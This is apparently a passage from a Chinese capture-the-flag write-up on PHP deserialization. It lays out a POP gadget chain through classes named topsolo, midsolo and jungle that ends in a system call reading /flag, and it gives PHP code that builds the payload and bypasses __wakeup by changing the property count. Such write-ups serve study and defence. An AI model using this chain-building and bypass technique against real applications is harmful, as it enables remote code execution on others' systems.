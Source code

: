 ```php
  }
}
?>
```
阅读全篇的代码，能够发现以下关联关系：
- `topsolo`中的`TP() $name();` 可以与`midsolo`的`__invoke()`关联
- `midsolo`中的`Gank() stristr`可以与`jungle`的`__toString()`关联

所以整个POP链构造如下，同时需要绕过`midsolo`的`__wakeup`：
```
topsolo -> __destruct() -> TP() -> $name() -> midsolo -> __invoke() -> Gank() -> stristr() -> jungle -> __toString -> KS() -> syttem('cat /flag')
```
对应php代码即：
```php
$jun = new jungle();
$mid = new midsolo($jun);
$top = new topsolo($mid);


// $ser = serialize($top);
// 绕过`midsolo`的`__wakeup`
// $ser = str_replace( '"midsolo":1:', '"midsolo":2:', $ser); 

// $filename = "example.ser";
// $file = fopen($filename, "w");
// fwrite($file, $ser);
// fclose($file);

$filename = "example.ser";
$file = fopen($filename, "r");
$fileSize = filesize($filename);
$ser = fread($file, $fileSize);
fclose($file);
unserialize($ser);
```

## Python反序列化